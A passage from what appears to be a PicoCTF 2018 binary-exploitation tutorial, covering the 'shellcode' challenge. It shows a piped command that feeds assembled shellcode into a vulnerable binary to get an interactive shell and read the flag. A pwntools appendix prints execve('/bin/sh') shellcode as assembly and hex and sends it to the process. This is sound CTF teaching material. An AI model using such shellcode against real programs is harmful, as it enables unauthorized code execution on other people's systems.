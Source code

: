 Of course, that terminal still isn't interactive. If you want one of those, you should do something like this:

```
$ cat - | (nasm -f bin ~/exploit_shell.S -o /dev/stdout && echo && cat -) | ./vuln
Enter a string!
h/sh
Thanks! Executing now...
ls
flag.txt  vuln  vuln.c
cat flag.txt
picoCTF{===REDACTED===}
```
{:.contains-term}

**BOOM**! You've achieved an interactive terminal from handcrafted shellcode using **nothing** but an assembler.

Now that you've solved **shellcode**, head back to the  [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) to continue with the next challenge.

## Appendix - pwntools

We'll go into `pwntools` more in future guides, but here's a quick tease of how you might do this challenge with pwntools (using its built-in shellcode that is null and newline free):

```
$ python
Python 2.7.12 (default, Jul 21 2020, 15:19:50)
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> context.update(arch='i386', os='linux')
>>> p = process("./vuln")
[x] Starting local process './vuln'
[+] Starting local process './vuln': pid 2676856
>>> print(shellcraft.linux.sh().rstrip())
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push '/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx, esp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016972
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80
>>> print(enhex(asm(shellcraft.linux.sh())))
6a68682f2f2f73682f62696e89e368010101018134247269010131c9516a045901e15189e131d26a0b58cd80
>>> p.sendline(asm(shellcraft.linux.sh()))
>>> p.interactive()
[*] Switching to interactive mode
Enter a string!
jhh///sh/bin��h�4$ri1�QjY�Q��1�j
```